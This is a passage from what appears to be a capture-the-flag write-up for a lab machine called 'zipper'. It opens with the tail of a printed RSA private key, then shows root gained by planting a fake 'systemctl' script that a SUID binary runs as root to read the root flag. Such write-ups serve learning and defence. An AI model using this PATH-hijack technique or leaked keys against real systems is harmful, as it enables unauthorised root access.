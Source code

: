 zH84g+XuCVxJCJaE7iLeJLJ4vg6P43Wv+WJEnuGylvzquPzoAflYyl3rx0qwCSNe
8MyoGxzgSRrTFtYodXtXY5FTY3UrnRXLr+Q3TZYDAoGBALU/NO5/3mP/RMymYGac
OtYx1DfFdTkyY3y9B98OcAKkIlaA0rPh8O+gOnkMuPXSia5mOH79ieSigxSfRDur
7hZVeJY0EGOJPSRNY5obTzgCn65UXvFxOQCYtTWAXgLlf39Cw0VswVgiPTa4967A
m9F2Q8w+ZY3b48LHKLcHHfx7AoGATOqTxRAYSJBjna2GTA5fGkGtYFbevofr2U8K
Oqp324emk5Keu7gtfBxBypMD19ZRcVdu2ZPOkxRkfI77IzUE3yh24vj30BqrAtPB
MHdR24daiU8D2/zGjdJ3nnU19fSvYQ1v5ObrIDhm9XNFRk6qOlUp+6lW7fsnMHBu
lHBG9NkCgYEAhqEr2L1YpAW3ol8uz1tEgPdhAjsN4rY2xPAuSXGXXIRS6PCY8zDk
WaPGjnJjg9NfK2zYJqI2FN+8Yyfe62G87XcY7ph8kpe0d6HdVcMFE4IJ8iKCemNE
Yh/DOMIBUavqTcX/RVve0rEkS8pErQqYgHLHqcsRUGJlJ6FSyUPwjnQ=
-----END RSA PRIVATE KEY-----
{% endhighlight %}

### 3.Getting root

Getting root is more simple.<br>
In util directory of ~/, there is a executable file which has SUID.
{% highlight shell %}
zapper@zipper:~/utils$ ls -la
total 24
drwxrwxr-x 2 zapper zapper 4096 Feb 21 04:20 .
drwxr-xr-x 6 zapper zapper 4096 Sep  9 19:12 ..
-rwxr-xr-x 1 zapper zapper  194 Sep  8 13:12 backup.sh
-rwxrwxr-x 1 zapper zapper   62 Feb 21 04:20 systemctl
-rwsr-sr-x 1 root   root   7556 Sep  8 13:05 zabbix-service
{% endhighlight %}

In that file, we can find that it is likely to use "systemctl" command.

![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-02-24/2019-02-24-16-19-47.png)

We can take advantage of this possible shell injection weakness.<br>
We can create a shell which name is "systemctl" in the same directory and zabbix-service would execute it.
{% highlight shell %}
zapper@zipper:~/utils$ echo "cat /root/root.txt" > systemctl
zapper@zipper:~/utils$ chmod 777 systemctl 
zapper@zipper:~/utils$ ls -la
total 24
drwxrwxr-x 2 zapper zapper 4096 Oct 26 08:48 .
drwxr-xr-x 6 zapper zapper 4096 Oct 26 08:35 ..
-rwxr-xr-x 1 zapper zapper  194 Sep  8 13:12 backup.sh
-rwxrwxrwx 1 zapper zapper   19 Oct 26 08:48 systemctl
-rwsr-sr-x 1 root   root   7556 Sep  8 13:05 zabbix-service
zapper@zipper:~/utils$ ./zabbix-service 
start or stop?: start
a7c743d35b8efbedfd9336492a8eab6e
a7c743d35b8efbedfd9336492a8eab6e
{% endhighlight %}
